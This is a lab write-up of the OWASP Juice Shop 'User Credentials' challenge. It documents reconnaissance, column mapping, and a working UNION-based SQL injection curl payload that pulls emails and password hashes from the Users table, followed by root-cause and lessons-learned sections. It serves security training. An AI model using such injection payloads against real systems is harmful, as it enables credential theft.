




# User Credentials

## Challenge Information

* **Category:** Injection
* **Challenge:** User Credentials
* **Vulnerability:** SQL Injection
* **Injection Type:** UNION-based SQL Injection
* **Target:** OWASP Juice Shop
* **Endpoint:** `/rest/products/search`
* **Challenge Key:** `unionSqlInjectionChallenge`

---

## Objective

Retrieve a list of all user credentials through SQL Injection.

The challenge requires identifying where user information is stored, discovering an injectable endpoint, determining how the query results are mapped to the application's response, and using a `UNION SELECT` statement to retrieve the `email` and `password` fields from the `Users` table.

---

## Reconnaissance / Discovery

### 1. Identify the User Model

The first step was to determine what information the application stores for users.

The User model was located at:

```text
/var/lib/juice-shop/models/user.ts
```

The model defines several user-related fields, including:

```text
id
username
email
password
role
deluxeToken
lastLoginIp
profileImage
totpSecret
isActive
```

The presence of `email` and `password` fields established the data we would eventually need to retrieve.

**Evidence:**



### 2. Identify the Database Table

The application uses Sequelize with SQLite as its database layer.

The authentication code also revealed that the application queries:

```sql
FROM Users
```

This established the table name:

```text
Users
```

with the relevant columns:

```text
email
password
```

### 3. Identify a User-Controllable Query

The next step was to determine where user-controlled input reaches a database query.

The search route was identified at:

```text
/var/lib/juice-shop/routes/search.ts
```

The route constructs the following SQL query:

```sql
SELECT * FROM Products
WHERE ((name LIKE '%<criteria>%'
OR description LIKE '%<criteria>%')
AND deletedAt IS NULL)
ORDER BY name
```

The important observation is that `criteria` originates from the `q` request parameter and is directly inserted into the SQL statement.

This makes the `q` parameter an SQL injection point.

**Evidence:**



---

## Attack Surface

The vulnerable endpoint is:

```text
GET /rest/products/search
```

The user-controlled parameter is:

```text
q
```

The application inserts this value directly into the SQL query:

```sql
... LIKE '%<criteria>%'
```

The attack surface can therefore be represented as:

```text
HTTP request
    ↓
q parameter
    ↓
searchProducts()
    ↓
SQL query construction
    ↓
SQLite database
    ↓
Products result
```

The original query operates on the `Products` table, but because the query is injectable, another table can potentially be introduced through `UNION SELECT`.

---

## Validation

### 1. Confirm the Query Structure

The existing SQL query returns product records.

The returned object contains nine fields:

```text
1. id
2. name
3. description
4. price
5. deluxePrice
6. image
7. createdAt
8. updatedAt
9. deletedAt
```

This established that the injected `UNION SELECT` must also return **nine columns**.

### 2. Confirm UNION Compatibility

A UNION test was performed using nine values:

```sql
UNION SELECT 1,2,3,4,5,6,7,8,9
```

The response showed:

```text
id          → 1
name        → 2
description → 3
price       → 4
deluxePrice → 5
image       → 6
createdAt   → 7
updatedAt   → 8
deletedAt   → 9
```

This confirmed that the injected query could control the returned columns.

### 3. Determine the Data Mapping

The next step was to determine which UNION columns could display the information we wanted.

Testing showed:

```text
UNION column 2 → response.name
UNION column 3 → response.description
```

This gave us the required mapping:

```text
Users.email    → column 2 → name
Users.password → column 3 → description
```

**Evidence:**



---

## Exploitation

With the database table, target columns, column count, and response mapping established, the final UNION query could be constructed.

The relevant query structure was:

```sql
UNION SELECT 1,email,password,4,5,6,7,8,9 FROM Users
```

The complete request used the vulnerable `q` parameter:

```bash
curl -sG 'http://127.0.0.1:42000/rest/products/search' \
  --data-urlencode "q=%' OR 1=1)) UNION SELECT 1,email,password,4,5,6,7,8,9 FROM Users-- " \
  -o /dev/null
```

The important part is that both pieces of credential information are retrieved in the **same response**:

```text
Users.email    → name
Users.password → description
```

This was necessary because the Juice Shop challenge validation checks for the credentials within the resulting query response.

No real credential hashes are included in this documentation.

---

## Evidence

The challenge state was verified through the Juice Shop challenge API:

```bash
curl -s http://127.0.0.1:42000/api/Challenges \
  | jq -r '.data[] | select(.key=="unionSqlInjectionChallenge") | "\(.name) | solved=\(.solved)"'
```

Result:

```text
User Credentials | solved=true
```

**Evidence:**



---

## Security Impact

A successful UNION-based SQL injection allows an attacker to manipulate the database query beyond its intended purpose.

In this challenge, an attacker could retrieve information from the `Users` table through an endpoint intended only for product searching.

The exposed information includes:

* User email addresses
* Password hashes

Depending on the database privileges, query structure, and accessible tables, SQL injection can potentially expose additional application data.

Password hashes should still be treated as sensitive information because they may be subject to offline password-cracking attacks, particularly when users choose weak or reused passwords.

---

## Root Cause

The primary root cause is the construction of SQL statements using untrusted user input.

The application effectively builds:

```ts
const query = `SELECT * FROM Products ... ${criteria} ...`
```

instead of safely parameterizing the value.

This allows SQL syntax supplied through the `q` parameter to become part of the database query itself.

---

## Lessons Learned

This challenge reinforced several important SQL injection testing principles:

### 1. Understand the application before attacking it

The first useful discovery was not a payload.

It was understanding:

```text
User model
    ↓
Users table
    ↓
email / password
```

### 2. Find where user input reaches the database

The vulnerable search endpoint provided the injection point.

### 3. Determine the original query structure

Before constructing the UNION payload, the number and order of returned columns had to be established.

### 4. Map database data to application output

Knowing that:

```text
column 2 → name
column 3 → description
```

made it possible to place the desired fields where they would actually appear in the HTTP response.

### 5. Validate rather than assume

The final proof was not simply seeing data in the response.

The Juice Shop challenge state confirmed:

```text
solved=true
```

---

## Conclusion

The User Credentials challenge demonstrated a complete UNION-based SQL injection workflow.

The investigation progressed from understanding the application's user model, to identifying the vulnerable search endpoint, determining the query's column structure, validating UNION injection, mapping output fields, and finally retrieving user credential data from the `Users` table.

The key methodology was:

```text
Observe
  ↓
Identify data
  ↓
Find input → SQL flow
  ↓
Determine query structure
  ↓
Validate injection
  ↓
Map output columns
  ↓
Construct UNION query
  ↓
Validate impact
  ↓
Document
```

The vulnerability exists because untrusted request data is incorporated directly into a SQL query without proper parameterization.
